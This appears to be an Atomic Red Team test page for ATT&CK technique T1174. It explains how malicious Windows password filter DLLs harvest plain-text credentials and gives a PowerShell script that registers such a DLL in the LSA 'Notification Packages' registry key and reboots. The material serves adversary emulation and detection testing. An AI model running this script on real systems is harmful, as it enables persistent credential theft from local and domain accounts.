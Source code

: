 # T1174 - Password Filter DLL
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1174)
<blockquote>Windows password filters are password policy enforcement mechanisms for both domain and local accounts. Filters are implemented as dynamic link libraries (DLLs) containing a method to validate potential passwords against password policies. Filter DLLs can be positioned on local computers for local accounts and/or domain controllers for domain accounts.

Before registering new passwords in the Security Accounts Manager (SAM), the Local Security Authority (LSA) requests validation from each registered filter. Any potential changes cannot take effect until every registered filter acknowledges validation.

Adversaries can register malicious password filters to harvest credentials from local computers and/or entire domains. To perform proper validation, filters must receive plain-text credentials from the LSA. A malicious password filter would receive these plain-text credentials every time a password request is made. (Citation: Carnal Ownage Password Filters Sept 2013)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Install and Register Password Filter DLL](#atomic-test-1---install-and-register-password-filter-dll)


<br/>

## Atomic Test #1 - Install and Register Password Filter DLL
Uses PowerShell to install and register a password filter DLL. Requires a reboot and administrative privileges.

**Supported Platforms:** Windows


#### Inputs
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| input_dll | Path to DLL to be installed and registered | Path | C:\AtomicRedTeam\atomics\T1174\src\AtomicPasswordFilter.dll|

#### Run it with `powershell`!  Elevation Required (e.g. root or admin) ```
$passwordFilterName = (Copy-Item "#{input_dll}" -Destination "C:\Windows\System32" -PassThru).basename
$lsaKey = Get-Item "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\"
$notificationPackagesValues = $lsaKey.GetValue("Notification Packages")
$notificationPackagesValues += $passwordFilterName
Set-ItemProperty "HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\" "Notification Packages" $notificationPackagesValues
Restart-Computer -Confirm
```



<br/>
